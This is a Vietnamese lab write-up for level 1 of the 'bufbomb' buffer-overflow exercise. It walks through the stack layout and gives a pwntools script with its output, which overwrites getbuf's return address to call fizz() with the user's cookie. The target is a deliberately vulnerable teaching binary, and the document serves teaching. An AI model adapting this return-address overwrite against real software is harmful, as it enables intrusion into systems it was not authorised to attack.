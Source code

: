 # Level 1
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Buffer overflow để thực thi được hàm `fizz()`.  

## Solution
Ở level này, cách chúng ta exploit cũng tương tự như ở [level 0](https://github.com/datthinh1801/NT209.L21.ANTN.Group_1/tree/main/Lab%205/Level%200), chỉ có duy nhất 1 điểm khác biệt là hàm `fizz()` có 1 tham số truyền vào.  
```c
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}
```  

Bên cạnh đó, hàm `fizz()` này sẽ so sánh giá trị được truyền vào với giá `cookie` được tạo từ `username`. Nếu 2 giá trị bằng nhau thì chuỗi `Fizz!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console, nếu không thì chuỗi `Misfire!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console.  

Vậy bên cạnh việc overflow để thực thi được hàm `fizz()`, chúng ta còn cần phải truyền được giá trị bằng với giá trị `cookie` vào hàm `fizz()` này.  

Tiếp theo, để quyết định được payload để nhập vào chương trình, chúng ta sẽ xem stack trước khi hàm `Gets()` được thực thi.  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|      ebp (getbuf's caller)      |---> ebp của hàm gọi getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+
```  
> Tương tự ở level 0, payload của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `4` bytes cuối là địa chỉ của hàm `fizz()`.

Stack khi bắt đầu thực thi hàm `fizz()`:  
```
+---------------------------------+
|           argument 1            |
+---------------------------------+
|     return address (fizz)       |---> return address của hàm fizz()
+---------------------------------+
|      ebp (fizz's caller)        |---> đỉnh của stack
+---------------------------------+
```  

Khi hàm `fizz()` được thực thi thì giá trị của tham số thứ nhất sẽ được truy xuất qua tham chiếu `(%ebp + 8)` (như hình minh họa ở trên). Chính vì vậy, để thành công trong việc truyền giá trị vào hàm thì chúng ta cần ghi thêm `8` bytes vào payload với `4` bytes đầu để ghi đè giá trị của return address của hàm `fizz()` và `4` bytes cuối cùng chính là giá trị mà chúng ta muốn truyền vào hàm `fizz()`.

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo process tới chương trình bufbomb
main_handler = process(['./bufbomb', '-u', '09821978'])

# tạo process tới chương trình makecookie để tạo cookie
cookie_getter = process(['./makecookie', '09821978'])
# lưu giá trị cookie
cookie = cookie_getter.recvline()[2:-1]
cookie = int(cookie, 16)
print(f"cookie: {hex(cookie)}")

# tạo 1 ELF object để đọc metadata của file bufbomb
e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) bytes ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)
# lấy địa chỉ của hàm fizz() thêm vào payload
exploit_payload += p32(e.symbols['fizz'])
# tiếp tục chèn thêm 4 ký tự 'A' vào payload
# để ghi đè return address của hàm fizz
exploit_payload += b'A'*4
# chèn giá trị cookie vào payload
exploit_payload += p32(cookie)

print(f"exploit payload: {exploit_payload}")

with open('payload.txt', 'wb') as f:
    f.write(exploit_payload)

main_handler.sendline(exploit_payload)
main_handler.interactive()
```  

Stack khi bị overflow:  
```
+---------------------------------+
|             cookie              |---> tham số thứ nhất của hàm fizz()
+---------------------------------+
|             'AAAA'              |---> return address của hàm fizz()
+---------------------------------+
|      địa chỉ của hàm fizz()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm gọi getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+
```  

Chạy script.  
```
└─$ ./level1.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 29
[+] Starting local process './makecookie': pid 31
[*] Process './makecookie' stopped with exit code 0 (pid 31)
cookie: 0x31f21393
exploit payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x9b\x13\x80AAAA\x93\x13\xf21'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 29)
Userid: 09821978
Cookie: 0x31f21393
Type string:Fizz!: You called fizz(0x31f21393)
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
